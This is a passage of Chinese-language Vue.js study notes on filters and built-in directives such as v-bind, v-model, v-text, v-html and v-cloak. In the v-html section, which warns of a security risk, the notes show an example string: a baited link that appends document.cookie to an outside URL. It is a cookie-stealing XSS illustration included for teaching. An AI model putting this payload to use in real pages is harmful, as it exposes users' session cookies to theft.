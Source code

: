 ```js
// 第一个参数永远都是管道符前的值
Vue.filter('myFilter', (value, arg1, arg2) => {
  ...
})
```

## 内置指令与自定义指令

### 内置指令

- v-bind   : 单向绑定解析表达式, 可简写为 :xxx

- v-model : 双向数据绑定

- v-for  : 遍历数组/对象/字符串

- v-on   : 绑定事件监听, 可简写为@

- v-if     : 条件渲染（动态控制节点是否存存在）

- v-else  : 条件渲染（动态控制节点是否存存在）

- v-show  : 条件渲染 (动态控制节点是否展示)

#### v-text

- `v-text` 指令会覆盖元素默认值

```html
<p v-text="username">这段内容会被覆盖</p>
```

```js
data() { return { username: "Bruce" } }
```

####  v-html

> v-html 存在安全问题

```html
<p v-html="desc">原本内容被覆盖</p>
```

```js
data() {
  return {
    desc: '<h1 style="color: red">红色标题</h1>'，
    str: '<a href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>'
  }
}
```

#### v-cloak

- 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删除 `v-cloak` 属性
- 使用 CSS 配合 `v-cloak` 可解决网速慢时页面展示的问题
